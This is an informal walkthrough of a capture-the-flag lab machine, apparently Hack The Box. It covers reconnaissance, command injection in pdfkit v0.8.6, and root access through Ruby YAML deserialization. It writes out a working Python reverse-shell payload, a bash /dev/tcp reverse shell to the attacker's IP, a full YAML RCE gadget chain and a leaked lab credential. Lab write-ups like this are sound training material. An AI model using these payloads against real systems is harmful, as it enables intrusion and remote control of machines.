 
nmap 10.10.11.189  => 22 and 80 was open

I saw i have to convert web page to pdf => url to pdf 

so i create web server and sent like url => python3 -m http.server 

and client side => http://10.0.0.1:8000 => and download something wiht save button.

The file that's i download with pdf fomrat , i check like this .

exiftool vb3h23m9llf89f16x478urml69krwszw.pdf  

I found something interesting that i downloaded => Creator : Generated by pdfkit v0.8.6

so i found exploit version pdfkit v0.8.6

http://example.com/?name=#{'%20`sleep 5`'}  => i found it

I use thi payload for initial access   => 1 st step
[http://10.10.14.44:8000/?name=](http://10.10.14.44:8000/?name=){’%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.44",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`'}


-----


and then i got user access  from here  -> 2nd step

I RUN linpeas and i found => ruby->bundles->config-> with red color and i open it and get doneee…

"henry:Q3c1AqGHtoI0aXAYFH"

-----
Rooting 

Firstly i check wiht sudo -l  => i saw henry can run update_dependencies.rb  without sudo access

so i check this file and then i found dependencies.yml file was running by directly .

So i was created dependencies.yml file by googling with "yml rce"  

=> i replace this payload inspect of other payloads => "bash -c 'bash -i >& /dev/tcp/10.10.14.44/9999 0>&1’"   => we can also use   => "cat /root/root.txt"

-   !ruby/object:Gem::Installer  
    i: x
-   !ruby/object:Gem::SpecFetcher  
    i: y
-   !ruby/object:Gem::Requirement  
    requirements:  
    !ruby/object:Gem::Package::TarReader  
    io: &1 !ruby/object:Net::BufferedIO  
    io: &1 !ruby/object:Gem::Package::TarReader::Entry  
    read: 0  
    header: "abc"  
    debug_output: &1 !ruby/object:Net::WriteAdapter  
    socket: &1 !ruby/object:Gem::RequestSet  
    sets: !ruby/object:Net::WriteAdapter  
    socket: !ruby/module 'Kernel'  
    method_id: :system  
    git_set: "cat /root/root.txt"  
    method_id: :resolve

I can easily search like yml rce ###

and then run this file => sudo -l
and then run it => got rooot......



